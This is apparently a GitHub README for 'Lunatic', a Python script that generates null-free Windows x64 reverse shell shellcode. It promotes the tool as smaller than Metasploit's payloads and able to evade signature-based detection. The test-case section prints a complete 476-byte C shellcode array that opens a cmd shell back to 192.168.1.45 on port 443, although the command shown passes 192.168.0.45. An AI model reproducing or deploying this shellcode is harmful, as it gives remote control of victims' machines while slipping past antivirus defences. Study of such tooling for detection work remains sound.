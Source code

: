 # Lunatic
Lunatic is a Python script that dynamically generates PIC Null-Free reverse shell shellcode. It is light, convenient, and fast. Generated shellcode can be `27 bytes` smaller than MSF's shellcode (Do not contain `0x00`) at most, depending on supplied shellcode options. Generated shellcode can also be used to evade signature-based detection, considering MSF's shellcode is used widely.


## Background

## How to Use

## Known Issues
1. According to the supplied IP address, port, and shell type, Lunatic dynamically generates Null-Free shellcode. I have considered most of the common situations that could generate Null bytes, however, I am aware that if the supplied IP address contains `.255` and `.0` at the same time, for instance, if the IP address is `192.168.0.255`, generated shellcode will contain Null byte. This type of IP address could be rare in practice, and eliminating Null byte for all IP addresses would add more complexity. Therefore, I do not intend to improve this part recently.

2. Regarding the port value, in theory, any port will not generate Null byte. However, due to the implementation of eliminating Null-byte, port `65280` is not usable.

## Future Plan


## Test Case

```cmd
python Lunatic.py --ip 192.168.0.45 --port 443 --variable buffer --shell cmd --language c --execution false


██╗░░░░░██╗░░░██╗███╗░░██╗░█████╗░████████╗██╗░█████╗░
██║░░░░░██║░░░██║████╗░██║██╔══██╗╚══██╔══╝██║██╔══██╗
██║░░░░░██║░░░██║██╔██╗██║███████║░░░██║░░░██║██║░░╚═╝
██║░░░░░██║░░░██║██║╚████║██╔══██║░░░██║░░░██║██║░░██╗
███████╗╚██████╔╝██║░╚███║██║░░██║░░░██║░░░██║╚█████╔╝
╚══════╝░╚═════╝░╚═╝░░╚══╝╚═╝░░╚═╝░░░╚═╝░░░╚═╝░╚════╝░

Author: Senzee
Github Repository: https://github.com/senzee1984/Lunatic
Description: Dynamically generate PIC Null-Free Reverse Shell Shellcode
Attention: In rare cases (.255 and .0 co-exist), generated shellcode could contain NULL bytes, E.G. when IP is 192.168.0.255


[+]Shellcode Settings:
******** IP Address: 192.168.1.45
******** Listening Port: 443
******** Language of desired shellcode runner: c
******** Shellcode array variable name: buffer
******** Shell: cmd
******** Shellcode Execution: false


[+]Payload size: 476 bytes

[+]Shellcode format for C

unsigned char buffer[]={
0x48,0x31,0xd2,0x65,0x48,0x8b,0x42,0x60,0x48,0x8b,0x70,0x18,0x48,0x8b,0x76,0x20,0x4c,0x8b,0x0e,0x4d,
0x8b,0x09,0x4d,0x8b,0x49,0x20,0xeb,0x63,0x41,0x8b,0x49,0x3c,0x4d,0x31,0xff,0x41,0xb7,0x88,0x4d,0x01,
0xcf,0x49,0x01,0xcf,0x45,0x8b,0x3f,0x4d,0x01,0xcf,0x41,0x8b,0x4f,0x18,0x45,0x8b,0x77,0x20,0x4d,0x01,
0xce,0xe3,0x3f,0xff,0xc9,0x48,0x31,0xf6,0x41,0x8b,0x34,0x8e,0x4c,0x01,0xce,0x48,0x31,0xc0,0x48,0x31,
0xd2,0xfc,0xac,0x84,0xc0,0x74,0x07,0xc1,0xca,0x0d,0x01,0xc2,0xeb,0xf4,0x44,0x39,0xc2,0x75,0xda,0x45,
0x8b,0x57,0x24,0x4d,0x01,0xca,0x41,0x0f,0xb7,0x0c,0x4a,0x45,0x8b,0x5f,0x1c,0x4d,0x01,0xcb,0x41,0x8b,
0x04,0x8b,0x4c,0x01,0xc8,0xc3,0xc3,0x4c,0x89,0xcd,0x41,0xb8,0x8e,0x4e,0x0e,0xec,0xe8,0x8f,0xff,0xff,
0xff,0x49,0x89,0xc4,0x48,0x31,0xc0,0x66,0xb8,0x6c,0x6c,0x50,0x48,0xb8,0x57,0x53,0x32,0x5f,0x33,0x32,
0x2e,0x64,0x50,0x48,0x89,0xe1,0x48,0x83,0xec,0x20,0x4c,0x89,0xe0,0xff,0xd0,0x48,0x83,0xc4,0x20,0x49,
0x89,0xc6,0x49,0x89,0xc1,0x41,0xb8,0xcb,0xed,0xfc,0x3b,0x4c,0x89,0xcb,0xe8,0x55,0xff,0xff,0xff,0x48,
0x31,0xc9,0x66,0xb9,0x98,0x01,0x48,0x29,0xcc,0x48,0x8d,0x14,0x24,0x66,0xb9,0x02,0x02,0x48,0x83,0xec,
0x30,0xff,0xd0,0x48,0x83,0xc4,0x30,0x49,0x89,0xd9,0x41,0xb8,0xd9,0x09,0xf5,0xad,0xe8,0x2b,0xff,0xff,
0xff,0x48,0x83,0xec,0x30,0x48,0x31,0xc9,0xb1,0x02,0x48,0x31,0xd2,0xb2,0x01,0x4d,0x31,0xc0,0x41,0xb0,
0x06,0x4d,0x31,0xc9,0x4c,0x89,0x4c,0x24,0x20,0x4c,0x89,0x4c,0x24,0x28,0xff,0xd0,0x49,0x89,0xc4,0x48,
0x83,0xc4,0x30,0x49,0x89,0xd9,0x41,0xb8,0x0c,0xba,0x2d,0xb3,0xe8,0xf3,0xfe,0xff,0xff,0x48,0x83,0xec,
0x20,0x4c,0x89,0xe1,0x48,0x31,0xd2,0xb2,0x02,0x48,0x89,0x14,0x24,0x48,0x31,0xd2,0x66,0xba,0x01,0xbb,
0x48,0x89,0x54,0x24,0x02,0xba,0xc0,0xa8,0x01,0x2d,0x48,0x89,0x54,0x24,0x04,0x48,0x8d,0x14,0x24,0x4d,
0x31,0xc0,0x41,0xb0,0x16,0x4d,0x31,0xc9,0x48,0x83,0xec,0x38,0x4c,0x89,0x4c,0x24,0x20,0x4c,0x89,0x4c,
0x24,0x28,0x4c,0x89,0x4c,0x24,0x30,0xff,0xd0,0x48,0x83,0xc4,0x38,0x49,0x89,0xe9,0x41,0xb8,0x72,0xfe,
0xb3,0x16,0xe8,0x99,0xfe,0xff,0xff,0x48,0xba,0x9c,0x92,0x9b,0xd1,0x9a,0x87,0x9a,0xff,0x48,0xf7,0xd2,
0x52,0x48,0x89,0xe2,0x41,0x54,0x41,0x54,0x41,0x54,0x48,0x31,0xc9,0x66,0x51,0x51,0x51,0xb1,0xff,0x66,
0xff,0xc1,0x66,0x51,0x48,0x31,0xc9,0x66,0x51,0x66,0x51,0x51,0x51,0x51,0x51,0x51,0x51,0xb1,0x68,0x51,
0x48,0x89,0xe7,0x48,0x89,0xe1,0x48,0x83,0xe9,0x20,0x51,0x57,0x48,0x31,0xc9,0x51,0x51,0x51,0x48,0xff,
0xc1,0x51,0xfe,0xc9,0x51,0x51,0x51,0x51,0x49,0x89,0xc8,0x49,0x89,0xc9,0xff,0xd0};
```
